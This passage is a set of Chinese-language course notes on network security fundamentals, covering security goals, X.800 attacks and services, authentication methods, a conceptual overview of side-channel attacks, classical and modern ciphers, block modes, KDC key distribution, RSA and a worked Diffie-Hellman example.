# Introduction

分数构成

| 项目                   | 截止日期   | 占比 |
| ---------------------- | ---------- | ---- |
| Assignment I           | 2026/03/13 | 15%  |
| Assignment II          | 2026/05/01 | 15%  |
| Final Exam**（笔试）** | -          | 70%  |


## [1] 网络安全基础概念

### [1.1] 网络安全目标 CIA

**CIA 三元组（CIA - Traid）**

- Confidentiality 保密性
- Integrity 完整性
- **Availability 可用性**


### [1.2] 安全架构 OSI

OSI 安全架构（OSI Security Architecture） 用了以下几个概念

- **安全攻击（Security Attack）**
- **安全机制（Security Mechanism）**
- **安全服务（Security Service）**


#### [1.2.1] 安全攻击

**安全攻击 Security Attack**，指的是任何危害组织或个人拥有信息安全性的行为

安全攻击分为：被动攻击（Passive Attack）、主动攻击（Active Attack）


**被动攻击（Passive Attack）：**

- 获取或利用系统中的信息。**不影响**系统资源或运行。就像“窃听”一样，数据还在传，系统也没坏，所以很难被察觉。
- 通常通过**加密 (比如量子加密 quantum )** 等手段来“**预防（prevent）**”，因为你很难“检测”到有人在偷听。
- 攻击方式有：内容泄露


**主动攻击（Active Attack）**

- 试图**篡改**系统资源或影响其运行。
- 会改变数据或系统状态。由于主动攻击会留下痕迹，重点在于**检测 (detect)** 并从破坏中恢复。


安全攻击的几个类型：

| **类型**   | **对应图示**                                                 | **解释**                                                     |
| ---------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **正常流** |  | 信息完整、直接地从发送方传到接收方。                         |
| **中断 **  |  | 系统资源被毁或变得不可用。这破坏了**可用性 (Availability)**。 |
| **拦截 **  |  | 第三方获取了信息的访问权。这属于**被动攻击**，破坏了**机密性 (Confidentiality)**。被动攻击。 |
| **篡改 **  |  | 第三方不仅拦截了信息，还对其进行了修改后再发给接收方。破坏了**完整性 (Integrity)**。 |
| **伪造 **  |  | 第三方假冒发送方，向系统中插入伪造的对象。破坏了**真实性(Authenticity)**。 |


可见，这四种攻击类型覆盖了CIA，加上 **Authenticity**

#### [1.2.2] 暴力破解 (Brute-Force Attack)

**定义**：系统性穷举所有可能的密钥或密码，直到找到正确的。对于 $n$ 位密钥，密钥空间为 $2^n$，平均需尝试 $2^{n-1}$ 次。

| 对策 (Countermeasure) | 说明 |
|------|------|
| **增加密钥长度 (Increase Key Length)** | 每加 1 位，搜索空间翻倍。AES-256 ($2^{256}$) vs DES-56 ($2^{56}$) |
| **密钥拉伸 (Key Stretching)** | PBKDF2 / bcrypt 将密码迭代哈希 $c$ 次 → 每次尝试成本 $c$ 倍 |
| **盐 (Salt)** | 每个密码加随机盐 → 无法用彩虹表 (Rainbow Table) 批量破解 |
| **速率限制 (Rate Limiting)** | 限制登录尝试次数；多次失败 → 账户锁定 (Account Lockout) |


## [2] 安全服务/ 安全属性

为了应对上述攻击，系统需要提供**安全服务（Security Service）**！

 **X.800 建议书**（OSI安全架构的标准）将安全服务分成了以下六个关键类别：

- ==**认证 (Authentication)**==
- **访问控制 (Access Control)**
- ==**数据机密性 (Confidentiality)**==
- ==**数据完整性 (Integrity)**==
- **不可抵赖性 (Non-repudiation)**
- ==**可用性 (Availability)**==

> 标黄的部分在上述攻击（CIA+Authenticity）存在，额外加上了访问控制和不可抵赖型


### [2.1] 认证 Authentication

确认通信双方的**身份**真实可靠。

确保你正在交谈的人确实是他声称的那个人，而不是冒充者。

**针对攻击**：**伪造 (Fabrication)**。


### [2.2] 访问控制 Access Control 

限制谁可以访问哪些资源，以及以什么方式访问（如只读、可写）。

防止未经授权的用户进入系统或接触敏感数据。

**针对攻击**：**拦截 (Interception)** （不允许拦截）


### [2.3] 数据机密性 Data Confidentiality

确保数据不被**非授权**的人读懂，即使数据被截获，如果没有密钥，攻击者也只能看到乱码。

**针对攻击**：**拦截（Interception）** （不允许看懂）


### [2.4] 数据完整性 Integrity

确保数据在传输过程中没有被非法**篡改、删除或插入**。

保证接收方收到的信息和发送方发出的完全一致。

**针对攻击**：**篡改 (Modification)**。


### [2.5] 不可抵赖性 Non-repudiation

防止发送方或接收方在事后**否认**曾经进行过该操作。就像“数字签名”，发送了就没法赖账，收到了也没法说没收到。


### [2.6] 可用性 Availability

确保系统或数据在需要时是**可用的**且能够正常提供服务。防止由于硬件故障或 DDoS 攻击导致系统瘫痪。

**针对攻击**：**中断 (Interruption)**。


## [3] 汇总表

**Y (Yes)**：表示该安全服务可以有效应对或防范对应的攻击类型。

| **安全服务 (Service) \ 攻击 (Attack)**        | **泄露消息内容 (Release of message contents)** | **流量分析 (Traffic analysis)** | **伪装 (Masquerade)** | **重放 (Replay)** | **修改消息 (Modification of messages)** | **拒绝服务 (Denial of service)** |
| --------------------------------------------- | ---------------------------------------------- | ------------------------------- | --------------------- | ----------------- | --------------------------------------- | -------------------------------- |
| **同等实体认证** (Peer Entity Authentication) |                                                |                                 | **Y**                 |                   |                                         |                                  |
| **数据源认证** (Data origin authentication)   |                                                |                                 | **Y**                 |                   |                                         |                                  |
| **访问控制** (Access control)                 |                                                |                                 | **Y**                 |                   |                                         |                                  |
| **机密性** (Confidentiality)                  | **Y**                                          |                                 |                       |                   |                                         |                                  |
| **流量机密性** (Traffic flow confidentiality) |                                                | **Y**                           |                       |                   |                                         |                                  |
| **数据完整性** (Data integrity)               |                                                |                                 |                       | **Y**             | **Y**                                   |                                  |
| **不可否认性** (Non-repudiation)              |                                                |                                 |                       |                   |                                         |                                  |
| **可用性** (Availability)                     |                                                |                                 |                       |                   |                                         | **Y**                            |


网络安全中 **X.800 标准**（安全架构标准）下的**安全机制**

安全机制用于实现各种安全服务。根据 X.800 标准，它们包括：

- **加密 (Encipherment or Encryption)**：通过数学算法对数据进行转换，使其在没有密钥的情况下无法被理解。
- **数字签名 (Digital signature)**：用于验证数据的完整性、真实性以及实现不可否认性。
- **访问控制机制 (Access Control mechanisms)**：限制对资源的访问权限，确保只有授权用户才能使用特定资源。
- **数据完整性机制 (Data Integrity mechanisms)**：例如哈希算法（Hash），用于检测数据在传输或存储过程中是否被篡改。
- **认证交换 (Authentication Exchange)**：通过信息交换来确认为通信实体的身份。
- **流量填充 (Traffic Padding)**：在数据流中插入伪随机数据，以防止攻击者通过流量分析获取信息。
- **路由控制 (Routing Control)**：选择物理上安全或特定的路由路径，以防止敏感信息被拦截。
- **公证 (Notarisation)**：通过受信任的第三方来确保通信的某些特性（如发送者、接收者、时间等）具有法律效力或可信度。


## [4] 身份识别、认证、授权

在这节课中有三个很相似的概念

- Identification 身份识别：缩写是 ID，类比身份证，告诉别人**你是谁？**
- Authentication 认证：【你真的是你吗？】比如Authenticator 就通过 2FA 的方式告诉别人，我确实就是xxx！
- Authorisation 授权：这个和权限有关，你能够做什么， 不能做什么

### [4.1] Authentication

> Authentication 认证：【你真的是你吗？】比如Authenticator 就通过 2FA 的方式告诉别人，我确实就是xxx！

Authentication 是访问资源前必须要进行的一步，分为两种：

- 机器对机器的认证（Machine-by-Machine Authentication）
- 人机认证（Human-by-Machine Authentication 也叫做用户认证）



机器认证的例子：数字证书、加密密钥等技术

人机认证的例子：输入密码、指纹识别或面部识别

> 人类往往是安全系统中最薄弱的一环
>
> **数学上的安全性差距：** 机器认证通常基于高强度的算法（如图像中提到的 AES 256位密钥）。从数学角度看，破解这种级别的密钥几乎是不可能的。
>
> **人类的局限性：** 虽然 256 位的密钥非常安全，但它长得像乱码（例如一串随机的十六进制字符），人类根本记不住。


一些常见的 Authentication 技术有：

- 密码（Password）：This is what you **KNOW**, based on the **Knowledge**.
- 令牌（Tokens）：This is what you **HAVE**, based on the **Object**.
- 生物识别（Biometrics）：This is what you **ARE**, based on **Your IDentity**.


#### [4.1.1] 密码

密码可以是：一个单词、一个短语或ID识别号码，被作为秘密保存并用于身份验证；

主要问题

- 简单的密码容易被猜测、攻击泄漏
- 复杂的密码难以记忆

#### [4.1.2] 令牌

令牌（Token）比如Github中的ssh上传，就可以用Token上传

甚至我们可以说，钥匙也是一种Token，我们把Token视作一个Object


包括，银行卡（拿这个实体Object去 POS 机刷）、智能手机等等！

令牌有两种类型

- 安全存储设备 (Secure Storage Device)：就是我们说的**（磁条）银行卡**那样的不变的

  > 这类令牌内部存储了**静态的秘密信息**（如密码或密钥）。
  >
  > **例子：** 传统的磁条银行卡、车库遥控器、早期的智能卡。

- 主动设备 (Active Device)：会生成OTP（一次性密码）

  > **时间同步 (Time-synchronous)：** 比如 Authenticator 或银行的动态口令卡（每 60 秒变换一次数字）。设备和服务器拥有相同的种子密钥和时钟，从而计算出一致的验证码。
  >
  > **挑战-应答 (Challenge-response)：** 比如现代的芯片卡！**芯片卡 RSA 认证**。服务器给出一个“挑战”（随机数），令牌利用内部私钥计算出“应答”。

因此，我们认为，令牌：

- **“拥有”不代表“本人”**
- **丢失即失效**
- **容易被复制或伪造**


> 额外知识：
>
> 因为传统磁带银行卡储存了`cvv`这些静态变量，它就像一个钥匙，要是被别人复制了，那就完蛋了。
>
> 如今的银行卡大多数都支持芯片，芯片内部使用RSA储存了一个密钥（回顾上学期计算机网络RSA非对称加密），通过物理方法最大程度避免非法截获密钥...当然，如果是普通银行卡，这样的Token就很容易被截获！

#### [4.1.3] 生物识别

那么**生物识别呢（Biometric Identificaion）**？常见的生物识别有这些...

- 人脸（Face）、视网膜（Retina）或**虹膜（Iris）**图像
- 指纹（Fingerprints）
- 语音（Voice）...

| **优点 (Advantages)**            | 缺点 (Disadvantages)                                         |
| -------------------------------- | ------------------------------------------------------------ |
| 生物特征不易被共享、复制或窃取。 | 技术复杂。                                                   |
| 在正常情况下，生物特征不会丢失。 | 需要专用硬件。                                               |
|                                  | 成本高（尽管目前成本一直在下降）。                           |
|                                  | 存在一定程度的：<br />**假阳性（误报）：** 错误地识别了不匹配的人。<br />**假阴性（漏报）：** 未能识别出正确匹配的人。 |


下图是一个针对生物识别技术的**威胁向量模型**！



- **前端攻击**：包括使用**假生物特征**（如硅胶手指）或通过截获信号进行**重放攻击**。
- **处理过程攻击**：攻击者可能尝试**绕过特征提取器**，或在数据传输过程中**篡改特征信息**。
- **后端与存储攻击**：包括**篡改数据库中的模板**、在匹配器与数据库之间进行**通道攻击**，或者直接**绕过匹配器**。
- **输出攻击**：直接干预最终结果，实现**决策绕过**。


为了应对上述威胁，**多模态架构（Multi-modal Architecture）**建议结合**两种或多种**生物特征（例如同时使用指纹和面部识别）：

优点：通过多种生物特征的融合，提升**通用型（Universality）**，减少**熵（Entropy，也即不确定性）**的影响


> 当代正在进行的更新的技术：**脑电波认证（Brainwaves）**


#### [4.1.4] 三类认证技术对比

| 类型 | 基础 | 优点 | 缺点 |
|------|------|------|------|
| **密码 (Password)** | What you **KNOW** | 无需硬件；简单 | 短→可猜/可搜；长→难记；可被截获、忘记、泄露 |
| **令牌 (Token)** | What you **HAVE** | 物理实体，可配合 OTP | 丢失=失效；不代表本人；可被复制/伪造 |
| **生物识别 (Biometrics)** | What you **ARE** | 不可分享/复制/丢失 | 假阳性/假阴性；需专用硬件；成本高 |

#### [4.1.5] 多因子认证 (Multi-Factor Authentication, MFA)

**定义**：结合**两种或多种不同类别**的认证因子，而非依赖单一方式。

| 因子类别 | 英文 | 例子 |
|---------|------|------|
| 知识因子 (你知道什么) | What you **KNOW** | 密码, PIN |
| 持有因子 (你拥有什么) | What you **HAVE** | 银行卡, 手机, OTP 令牌 |
| 固有因子 (你是什么) | What you **ARE** | 指纹, 虹膜, 面部 |

**例子**：银行卡 (Token) + PIN (Password) = 双因子。网上银行密码 + SMS 验证码。

**原理 (Rationale)**：单因子被攻破则认证崩溃（密码泄露/令牌被盗）。结合多因子 → 攻击者必须同时攻破**两个独立要素**——偷到卡**且**知道 PIN。一个因子泄露不导致整体失效。

**常见实现**：
- 密码 + OTP (手机 Authenticator / SMS)
- 密码 + 指纹 (手机解锁 + 支付确认)
- 智能卡 + PIN (芯片银行卡)

### [4.2] 侧信道攻击

Side Channel Attack

之前我们提到，芯片银行卡通过物理手段，最大程度放置不法分子物理打开这个芯片去窥探密钥，但是除了物理手段，仍然有很多手段可能存在威胁！

- **功耗监测攻击 (Power-monitoring)：** 银行卡芯片运算时电流会有微弱波动。通过高精度示波器观察电流曲线和一些数学建模，有可能可以推断出密钥
- **计时攻击 (Timing attack)：**测量电脑执行运算所需的时间。比如，比较密码时，如果第一位错了就立刻返回，耗时会比“完全匹配”短，攻击者据此逐位破解。
- **缓存攻击 (Cache attack)：** 攻击者在云服务等共享物理环境下，通过监测缓存命中/缺失的情况，推断受害者访问了哪些内存地址，从而反推密钥。


此外，还有更多侧信道攻击！

- **电磁攻击 (Electromagnetic)：** 银行卡芯片电路工作时会发射微弱的电磁波，捕捉这些辐射可能可以远程还原显示器画面或密钥。
- **声学分析 (Acoustic)：** 电脑**电容**器在工作时会发出极高频的啸叫声（人耳通常听不到）。研究表明，通过录制这些声音可以解密 4096 位的 RSA 密钥。
- **差分故障分析 (Differential fault analysis)：** 故意用激光或电压波动干扰芯片，让它产生错误计算。通过对比“正确结果”和“错误结果”，可以推导出内部机密。
- **数据残留 (Data remanence)：** 例如 **冷启动攻击 (Cold boot attack)**。内存（DRAM）断电后数据不会立刻消失，如果用液氮快速冷冻内存条，可以在几分钟后依然读出里面的加密密钥。





# Encryption

## [1] 加密/解密

保护等级表格：

| **等级 (Level)** | **保护对象 (What to protect)** | **实现方法 (Method)**      | **简单理解**                                                 |
| ---------------- | ------------------------------ | -------------------------- | ------------------------------------------------------------ |
| **Level 0**      | **无 (Nothing)**               | **无 (None)**              | 信息处于“裸奔”状态，任何人都能读取。                         |
| **Level 1**      | **消息内容 (Content)**         | ==**加密 (Encryption)**==  | 对信件加锁。别人知道你在发信，但不知道信里写了什么。         |
| **Level 2**      | **元数据 (Metadata)**          | **隐私增强技术 (PETs)**    | 隐藏“谁在什么时候给谁发了信息”。类似于使用匿名邮件转发服务。 |
| **Level 3**      | **消息的存在性 (Existence)**   | **隐写术 (Steganography)** | 彻底隐身。让别人根本没意识到你在传输信息。                   |


我们学过，加密算法可以分为

- 对称加密（Symmetric Encryption），比如AES，加密和解密用同一个密钥
- 非对称加密（Asymmetric Encryption），比如RSA，加密用公钥，解密用私钥

这些算法都是**算法公开，密钥保密**。

> 核心原则 (Kerckhoffs' Principle)：**安全性依赖于密钥的保密，而非算法的保密** (Security depends on the secrecy of the key, NOT the secrecy of the algorithm)。
>
> 为什么？
> - 发明新算法并保持其秘密性**非常困难**——算法部署后会被逆向工程，一旦泄露，安全性全部丧失（密钥泄露只影响一把，算法泄露全体遭殃）
> - **生成新密钥容易得多**——换密钥成本极低，换算法几乎不可能
> - 算法保密的另一个风险：**隐藏缺陷发现太晚**——无公开审查，漏洞留在暗处。例：DVD 的 CSS (Content Scramble System) 算法，秘密设计，致命缺陷，发现时已部署数百万设备

> 额外知识：
>
> AES要求密钥一致，那么就意味着和你朋友对话，你朋友也必须要有一样的密钥。
>
> 网络传输是不可靠的，因此AES密钥想要给你的朋友，你只能坐飞机过去告诉他。但是RSA解决了这个问题，通过公私密钥对，我们直接可以传输AES密钥
>
> AES密钥加密速度很快，比RSA快得多，因此，我们一般使用RSA对AES密钥加密，传输后，我们直接使用AES通讯。
>
> **先用 RSA 传输 AES 密钥，然后后续通信全部改用 AES**——正是目前全世界几乎所有安全通信（如 HTTPS、WhatsApp 加密、VPN 等）所采用的**标准做法**。
>
> 这种方案在学术上被称为**混合加密系统 (Hybrid Cryptosystem)**。


除了 Symmetric , Asymmetric 加密之外，我们还可以把加密分为两类

- 按照对数据的操作分类

  - 替换（Substitution）
  - 置换（Transpositions）

- 按照对明文的处理方式分类（通常是 Symmetric Encryption 范畴）

  - **分组密码（Block Cipher）**输入会被转化为**块**

    > 分组（块）越大越安全，但是越慢。
    >
    > 密钥越大越安全，但是越慢
    >
    > 轮数越多越安全，但是越慢
    >
    > 

  - 流密码（Stream Cipher）每次就处理一个元素，元素按照流式输入





$$
\text{[图左]：替换~~~~~~~~~[图右]：置换}
$$
替换如图左，通过映射（Mapping）来实现

置换如图右，通过对明文字母重新排列实现，但是他不会掩盖字母的出现频率！


通常我们不追求绝对的数学不可破译性，而是追求**实际意义上的不可破译性**

一个加密方案如果满足以下任一条件，就认为它是**计算安全**的：

- **成本原则**：破解这个方案所花费的资金或资源，超过了被加密信息本身的价值。
- **时间原则**：破解这个方案所需要的时间，超过了信息的有效生命周期（比如：破解一份关于明天天气预报的信息需要 100 年，那这个加密就是安全的）。


根据**攻击者掌握的信息量**，将攻击分成了五个等级

| **攻击类型**                         | **攻击者已知的信息 (Known to Cryptanalyst)**                 | **简单理解**                                                 |
| ------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **唯密文攻击** (Ciphertext only)     | 1. 加密算法 2. 待破译的密文                                  | 最难。你只有一堆乱码，什么明文都看不见。                     |
| **已知明文攻击** (Known plaintext)   | 1. 加密算法 2. 待破译的密文 3. **一个或多个“明文-密文对”**   | 攻击者手里有一些已经破译好的历史记录，用来找规律。           |
| **选择明文攻击** (Chosen plaintext)  | 1. 加密算法 2. 待破译的密文 3. **攻击者自选明文，并获得了对应的密文** | 攻击者可以把自己的信息“喂”给加密机，观察输出，从而反推密钥。 |
| **选择密文攻击** (Chosen ciphertext) | 1. 加密算法 2. 待破译的密文 3. **攻击者自选密文，并获得了对应的解密明文** | 类似于“拿到了解密机的临时使用权”，通常用于攻击公钥加密体系。 |
| **选择文本攻击** (Chosen text)       | 以上所有信息的结合                                           | 最强力的攻击手段，包含了选择明文和选择密文。                 |


### [1.1] 置换型 - 栅栏密码

**栅栏密码（Rail Fence Cipher）是一种经典的置换（Transposition）密码**


栅栏密码的两个关键参数：

- **高度 (Height/Key)**：指你准备了多少根“栅栏”（即行数）。在这个例子中，高度为$H=3$
- **周期 (Cycle)**：指字符从顶层到底层，再回到顶层之前所经过的字符总数，等于$2\times(H-1)$

因此，核心的元素就是栅栏的高度，通过高度可以推算出周期。显然，如果高度 $H=3$ 意味着我们画三行。

我们将 `UNIVERSITY` (10个字母) 填入表中：

| **字符序号** | **1** | **2** | **3** | **4** | **5** | **6** | **7** | **8** | **9** | **10** |
| ------------ | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ------ |
| **第 1 行**  | **U** |       |       |       | **E** |       |       |       | **T** |        |
| **第 2 行**  |       | **N** |       | **V** |       | **R** |       | **I** |       | **Y**  |
| **第 3 行**  |       |       | **I** |       |       |       | **S** |       |       |        |

读取结果（按行读取）：加密后的密文就是把每一行的字母连起来！

第1行：U E T

第2行：N V R I Y

第3行：I S

**最终密文：** `UETNVRIYIS`


同理，填入`LIVERPOOL`

| L    |      |      |      | R    |      |      |      | L    |
| ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
|      | I    |      | E    |      | P    |      | O    |      |
|      |      | V    |      |      |      | O    |      |      |


大多数现代算法都包含多个交替进行的**替换（Substitution）**和**置换（Transpositions）**阶段；


### [1.2] Feistel Network

Feistel 网络不是一种具体的加密算法，而是一个**通用的结构框架**。它的巧妙之处在于，无论你中间使用的加密函数有多复杂，它都能保证整个过程是可逆的（即可以解密）。

它是许多对称**加密算法（如著名的 DES 算法）**的核心框架。



$$
\text{[图]：加密和解密过程}
$$

> 实际上，这两张图片是一样的


加密过程：此处左边和右边不一定需要对半平分，这里的轮密钥（Round Key）和右侧的原文一起塞入函数（可以是Hash），输出的文字和左侧原文进行 XOR 运算。

解密过程：执行完全相同的过程


#### [1.2.1] DES

Data Encryption Standard

这是 Feistel 网络最著名的应用案例，曾在全球范围内被广泛采用。

1977 年被美国国家标准局采纳，其核心算法被称为 **DEA**（Data Encryption Algorithm）。

- **分块大小**：每次处理 **64 位**的数据块。
- **密钥长度**：主密钥为 **56 位**。
- **轮数**：总共进行 **16 轮** Feistel 运算，并生成 16 个子密钥。

随着计算能力的提升，原本安全的算法逐渐变得脆弱。

1. **密钥空间太小**：DES 的密钥只有 56 位。虽然 $2^{56}$ 是一个庞大的数字，但在现代计算机面前已经不够看。
2. **易受暴力破解**：早在 20 世纪 90 年代中期，计算机就已经能够成功暴力破解 DES 密钥。
3. **解决方案**：PPT 指出最直接的方法是**增加密钥长度**（例如后来出现的 3DES 或现在的 **AES**）。


#### [1.2.2] 3DES 和 AES

DES 过时了，取而代之的是3DES和AES

3DES是什么？DES 密钥过短（56位），容易被暴力破解，因此通过三次运算来增加密钥长度和复杂度。



> 注意，途中是加密、解密($\text{DES}^{-1}$)、加密
>
> 那么标准的解密流程就是：解密、加密、解密
>
> （DES是对称加密）此处有三把**不同的密钥**！


现代最常用的加密标准是 AES ：

**密钥长度：** 支持 **128、192 或 256 位**。位数越高，破解难度呈指数级增加。

**轮数（Rounds）：** 根据密钥长度不同，加密的轮数也不同：

- 128位密钥 $\rightarrow$ **10轮**
- 192位密钥 $\rightarrow$ **12轮**
- 256位密钥 $\rightarrow$ **14轮**

$$
轮数=\frac{位数}{32}+6
$$


尽管如此，最近仍然发现一些针对AES的高效侧信道攻击（Side Channel Attacks）


## [2] 分组密码和流密码

分组密码在 DES AES中用的很多，例如

- ECB（Eletronic Codeblock Mode） 电子密码本模式
- CBC（Cipher Block Chaining）密码块链模式
- CFB（Cipher Feedback Mode）密码反馈模式


### [2.1] EBC

电子密码本模式 EBC (Electronic Codebook Mode, ECB)

这是一种最简单的加密模式，其特点包括：

- **分块加密**：将明文分成固定大小的块（例如每块 64 位），并使用**相同的密钥**对每个块进行加密。
- **结果唯一性**：对于给定的明文块和密钥，其加密结果（密文）是唯一的。
- **存在安全风险**：如果明文中存在重复的块，加密后的密文也会包含重复的密文块。因此，对于较长的常规消息，这种模式可能是不安全的。

### [2.2] CBC

CBC (Cipher Block Chaining Mode, CBC)

CBC 模式修复了 ECB 的上述缺陷，其核心逻辑如下：

- **消除重复性**：相同的明文块在 CBC 模式下会产生**不同**的密文块。
- **核心原理**：在加密当前明文块之前，先将其与**前一个密文块**进行异或（XOR）运算。
  - 其数学公式为：

$$
C_i = E_K[C_{i-1} \oplus P_i]
$$


- **初始化向量 (IV)**：由于第一个块前面没有密文块，因此需要使用一个“初始化向量 (IV)”来进行第一次运算。
- **安全建议**：最好将密钥 (Key) 和 IV 都保持私密。
- CBC 修复了 ECB 相同的明文产生相同密文的缺陷


### [2.3] CFB

密码反馈模式 (Cipher Feedback Mode, CFB)

CFB 模式可以将块加密器转换为**流加密器 (Stream Cipher)**，特点如下：

- **传输单元参数 $s$**：它具有一个参数 $s$（传输单元的大小）。例如，如果使用 8 位字符作为传输单元，则 $s = 8$。
- **移位寄存器**：使用一个大小等于块加密器块大小（通常为 64 位）的移位寄存器。
- **需要 IV**：与 CBC 模式类似，该模式同样需要一个初始化向量 (IV)。


## [3] 密钥分发

Key Distribution

加密通信中，双方（A和B）如何安全地获得用于加密数据的“钥匙”？

### [3.1] 手动分发

Manual Delivery

这是最原始、但也最安全（在物理层面）的方法：

- **方式 A：** A 生成密钥后，**亲自/派人**把密钥送到 B 手中。
- **方式 B：** 由第三方信任机构 C 生成密钥，分别物理送达给 A 和 B。
- **局限性：** 这种方法在现代互联网中几乎不可行。如果你在上海，朋友在伦敦，或者你需要和全球成千上万台服务器建立动态连接，物理运送密钥的速度和成本是无法接受的。

### [3.2] 进阶技术

Further Techniques

为了克服物理运送的麻烦，人们想出了利用已有连接的方法：

- **旧瓶装新酒：** 如果 A 和 B 之前已经有一个共享密钥，他们可以用旧密钥加密一个“新密钥”发送给对方。
  - **潜在风险：** 一旦攻击者破解了其中一个旧密钥，他就能像推倒多米诺骨牌一样，获取之后所有的后续密钥。
- **加密通道：** 利用第三方 C 与 A、B 之间已经存在的加密通道进行分发。C 生成密钥后，通过这些安全通道传给双方。

### [3.3] 自动化密钥分发

Automated Key Distribution

这是目前大型网络系统最常用的方案，图中展示了一个典型的 **KDC（密钥分发中心 Key Distribution Center）** 架构：

**运作流程（对应图中的 1-4 步）：**

1. **主机请求：** 主机（Host）发出数据包，请求建立连接。
2. **前端处理：** 前端处理器（FEP）拦截数据，暂时缓冲数据包，并向 **KDC** 申请一个“会话密钥（Session Key）”。
3. **密钥分发：** KDC 生成一个随机的一次性会话密钥，并分别分发给连接两端的 FEP。
4. **开始通信：** 两端的 FEP 都拿到了相同的密钥，于是使用该密钥加密之前缓冲的数据包并发送。

**核心组件：**

- **FEP (Front End Processor)：** 负责处理通信细节，减轻主机的加密负担。
- **KDC (Key Distribution Center)：** 它是整个系统的“信任根”，专门负责分发临时的、一次性的会话密钥。




> [!NOTE]
>
> Semester I 的计网前几年考试有答题，其中一个大题就是考了 KDC 是如何建立 AB之间的连接的
>
> 现在我们希望在==不使用公钥加密==的情况下，利用 **密钥分发中心 (KDC)** 来分发会话密钥。KDC 是一个服务器，它与每个注册用户共享一个秘密的**对称密钥**。对于 Alice 和 Bob，这些密钥分别记为 $K_{A-K}$ 和 $K_{B-K}$。根据请求，KDC 会签发一个会话密钥 $K_S$。请设计一个使用 KDC 向 Alice 和 Bob 分发 $K_S$ 的方案。你的方案应包含三条消息：
>
> - 一条从 Alice 到 KDC 的消息，请求与 Bob 的会话密钥 $K_S$。
> - 一条从 KDC 到 Alice 的消息。
> - 一条从 Alice 到 Bob 的消息。
>
> 
>
> 解释：
>
> ### KDC 持有什么密钥？
>
> KDC 作为受信任的第三方，**预先拥有并持有与网络中每个用户的长期共享主密钥**。
>
> 具体到这张图：
>
> - **持有 $K_{A-K}$：** 这是 Alice 和 KDC 之间预先共享的唯一对称加密密钥。只有 Alice 和 KDC 知道。
> - **持有 $K_{B-K}$：** 这是 Bob 和 KDC 之间预先共享的唯一对称加密密钥。只有 Bob 和 KDC 知道。
>
> **核心目标：** 让 Alice 和 Bob 获得一个共同的临时“会话密钥”（$K_S$），以便他们俩可以直接进行加密通信，而不需要每次都通过 KDC。
>
> - **步骤 1：Alice 向 KDC 发起请求**
>
>   Alice 想要联系 Bob。她用自己和 KDC 之间的共享密钥 $K_{A-K}$ 对包含她自己身份 ($A$) 和 Bob 身份 ($B$) 的消息进行加密，即发送 $K_{A-K}(A, B)$ 给 KDC。这既表明了她的通信意图，也证明了她的身份。
>
> - **步骤 2：KDC 生成会话密钥并回复 Alice**
>
>   KDC 收到消息并用 $K_{A-K}$ 解密。确认请求后，KDC 生成一个新的、一次性的**会话密钥 ($K_S$)**。接着，KDC 将以下两部分打包，用 Alice 的密钥 $K_{A-K}$ 加密后发给 Alice：
>
>   1. 给 Alice 用的会话密钥 $K_S$。
>   2. 一张**给 Bob 的“票据”**：这张票据包含了 Alice 的身份 ($A$) 和会话密钥 ($K_S$)，并且是用 **Bob 的密钥 $K_{B-K}$** 加密的。即图中的 $K_{B-K}(A, K_S)$。*(注意：Alice 收到后能解开外层，但解不开这张属于 Bob 的内部票据)*。
>
> - **步骤 3：Alice 将票据转发给 Bob**
>
>   Alice 收到 KDC 的回复后，解密拿到了自己的会话密钥 $K_S$，然后将那张用 Bob 密钥加密的票据 $K_{B-K}(A, K_S)$ 原封不动地转发给 Bob。Bob 收到后，用自己的密钥 $K_{B-K}$ 解密，看到了 Alice 的身份 ($A$)，并提取出了会话密钥 $K_S$。


## [4] 公钥加密 

### [4.1] RSA

我们学过 RSA，并且对公钥加密并不陌生 
$$
\text{公钥(E,N)~|~私钥(}\color{red}\mathbf{D}\color{black}\text{,N)}\\
明文^E \text{~mod~} N = 密文\\
密文^D \text{~mod~} N = 明文\\
\text{E和N可对调不影响，仅私钥中的D不公开}
$$


公钥加密（Public Key Encryption） 也叫做 **非对称加密（Asymmetric Encryption）**
除了RSA，还有一些其他的公钥加密算法，例如 ECDSA，DSA 和 DH


对于对称加密而言，RSA 的缺点是加密慢。 在现代互联网中，RSA通常用于建立首次连接。我们常见的混合加密中，RSA 也只是对 对称密钥进行加密：


其中 $H(m)$ 是生成一个摘要，Alice 用自己的私钥进行 RSA 加密，确保了这个信息没有被更改（因此附上原文，这样 Bob 到时候就能够用 Alice 的公钥来同样算出这个摘要，对比，就可以知道有没有更改）这就同时保证了**==真实性==**（Authenticity，也即能确认Alice就是Alice）和**==完整性==**（Integrity，也即能确认发送途中没有人修改了这个$m$以至于和摘要不一致！）

此外，原文和摘要这两个合在一起，用对称加密，因为这样加密速度很快！但是对称密钥要用Bob的公钥加密，这样Bob才能拿到对称密钥（第一次连接）！最后能保证**==机密性（Confidentiality）==**


RSA 的巧妙之处在与，信息用公钥加密，可以用私钥解开，用私钥加密，也可以用公钥解开，这得益于数学的一些性质，例如模性质。

其中有一些数学概念我们应当掌握：

什么是**质数（Prime Number）**？如果只有1和自身之外，不能从 $n\ge2$ 中找到一个能被整除的数，那么这个数就是质数！

什么是**gcd（最大公约数）**？一个最大的，能同时被$a$和$b$整除的数。例如 $\text{gcd(4,6)=2}$

什么是同余？例如 $a\equiv b ~~~ \text{mod n}$ 就是 $a~~~ \text{mod~~~n} = b ~~~ \text{mod}~~~n$


### [4.2] Diffie-Hellman (DH) 算法

DH也即 **[迪菲-赫尔曼密钥交换](https://www.bilibili.com/video/BV1sY4y1p78s)** 算法

DH 主要运用了离散对数的问题，正向计算简单，逆向计算困难！

**公开参数**：质数 $P = 23$，底数（生成元） $G = 5$

**A 方（Alice）**：

- 私钥：$a = 6$
- 计算公钥：$A = G^a \pmod P = 5^6 \pmod{23} = 8$

**B 方（Bob）**：

- 私钥：$b = 15$
- 计算公钥：$B = G^b \pmod P = 5^{15} \pmod{23} = 19$

**计算共享密钥**：

- A 方拿到 B 的公钥后计算：$S = B^a \pmod P = 19^6 \pmod{23} = 2$
- B 方拿到 A 的公钥后计算：$S = A^b \pmod P = 8^{15} \pmod{23} = 2$



```mermaid
sequenceDiagram
    participant A as A方 (Alice)
    participant B as B方 (Bob)

    Note over A,B: 提前约定公开参数: P = 23, G = 5 <br>并控制公开方法为 5^[私钥] mod 23 <br> 也即 G^[私钥] mod P

